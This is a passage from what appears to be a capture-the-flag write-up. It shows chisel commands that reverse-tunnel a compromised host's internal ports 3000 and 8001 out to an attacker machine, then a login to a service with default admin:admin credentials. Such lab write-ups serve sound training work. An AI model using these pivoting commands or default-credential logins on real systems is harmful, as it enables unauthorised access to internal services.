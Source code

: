 and there is running apps in the background using port 8001.
we can do port forwarding 3000 and 8001 using `chisel`.

on victim command :

```bash
./chisel client 10.10.14.59:8000 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001 &
```

on kali command :

```bash
./chisel server -p 8000 --reverse3
```

![](/assets/img/only4you/9.png)

we can login using admin:admin as credentials

![](/assets/img/only4you/10.png)
